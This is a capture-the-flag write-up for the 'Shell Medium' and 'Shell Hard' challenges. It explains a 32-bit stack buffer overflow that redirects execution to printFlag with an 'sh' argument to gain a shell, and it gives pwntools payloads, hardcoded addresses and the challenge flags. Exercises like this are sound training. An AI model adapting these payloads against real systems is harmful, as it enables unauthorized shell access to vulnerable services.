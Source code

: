 > **Shell Medium**
> 
> Run a command and get the flag.
> 
> ASLR is off on the server.
---
> **Shell Hard**
> 
> Maybe changing the code isnt the right direction.
> 
> Note: The binary from shell has not changed
---

The functions here are exactly the same as in the task [PWN - Never Called](../PWN%20-%20Never%20Called/PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.

![](1.png)

Offset remains the same - 62, the address of the printFlag function is 0x5655628b.

![](2.png)
![](3.png)

Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.

![](4.png)
![](5.png)

We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.

![](6.png)

So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.

![](7.png)

Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```

![](8.png)

I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

---
> [**Full exploit**](shell.py)
> 
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> 
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**
